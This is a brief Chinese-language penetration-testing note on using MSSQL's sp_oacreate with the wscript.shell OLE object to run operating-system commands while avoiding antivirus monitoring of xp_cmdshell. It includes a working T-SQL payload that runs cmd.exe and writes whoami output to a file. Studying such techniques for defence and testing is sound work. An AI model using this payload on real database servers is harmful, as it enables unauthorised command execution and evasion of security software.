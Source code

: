 ![](media/2019-07-19-15-08-36.png)

由于反病毒软件会监控xp_cmdshell，一执行就会返回`CreateProcess Error Code 5`等问题，`sp_oacreate`是能够解决，但是没有回显，可通过发送网络请求来看。

sp_oacreate是基于ole对象的，ole对象执行拦截的较少、包括regsvr32也是调用的ole对象去执行vbs代码，这其中有一种白名单派生关系。

语法
```
sp_OACreate progid, | clsid,
objecttoken OUTPUT
[ , context ]
```

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

其中`'wscript.shell'`就是一个对象，这个对象可以是其他ole对象，具体还需要继续发掘。。


